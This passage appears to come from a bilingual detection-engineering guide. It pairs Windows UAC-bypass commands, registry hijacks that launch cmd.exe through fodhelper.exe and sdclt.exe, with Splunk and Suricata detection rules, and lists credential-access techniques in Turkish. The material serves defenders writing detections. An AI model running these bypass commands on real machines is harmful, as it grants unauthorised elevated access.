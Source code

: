 - **Suricata Rule**

```plaintext
alert http any any -> any 80 (msg:"Possible malicious file download"; fileext:"exe"; sid:1000002;)
```

#### **Bypass User Account Control**

- **Attack Commands**

  **a. Bypassing UAC with fodhelper.exe:**

  ```bash
  reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /f  
  reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "cmd.exe" /f  
  start fodhelper.exe
  ```  

  **b. Bypassing UAC with sdclt.exe:**

  ```bash
  reg add HKCU\Software\Classes\exefile\shell\open\command /v DelegateExecute /f  
  reg add HKCU\Software\Classes\exefile\shell\open\command /d "cmd.exe" /f  
  sdclt.exe
  ```

- **Splunk Rule**

```spl
index=win_eventlog EventCode=4657 
(ObjectName="HKCU\Software\Classes\ms-settings\shell\open\command" OR 
 ObjectName="HKCU\Software\Classes\exefile\shell\open\command") 
| table _time, ComputerName, ObjectName, OldValue, NewValue
```

- **Suricata Rule**

```plaintext
alert http any any -> any 80 (msg:"Possible UAC Bypass tool download"; fileext:"exe"; sid:1000003;)
```

### **Credential Access**  

1. **Brute Force (Zorla Şifre Deneme):** Sistematik olarak tüm olası şifre kombinasyonlarını deneyerek yetkilendirme bilgilerini ele geçirme yöntemidir.  
2. **Credential Dumping (Kimlik Bilgisi Çıkarma):** Hafıza, dosya sistemi veya sistem kayıt defterinden kimlik bilgilerini toplama tekniğidir.  
3. **Man-in-the-Middle (Ortadaki Adam Saldırısı):** İki taraf arasındaki iletişimi gizlice izleme, değiştirme veya yönlendirme saldırısıdır.  
4. **Password Filter DLL (Şifre Filtresi DLL):** Windows şifre değişikliği işlemini hedef alarak kimlik bilgilerini çalmak için kullanılan zararlı DLL dosyası yerleştirme yöntemidir.  
5. **Password Spraying (Şifre Yağmurlaması):** Çok sayıda kullanıcı hesabında yaygın olarak kullanılan şifreleri deneme yöntemidir.  
6. **Securityd Memory (Securityd Bellek):** macOS sistemlerinde kimlik bilgilerini ele geçirmek için güvenlikd (securityd) sürecinin belleğini hedef alan saldırılardır.  

#### **Credential Dumping**
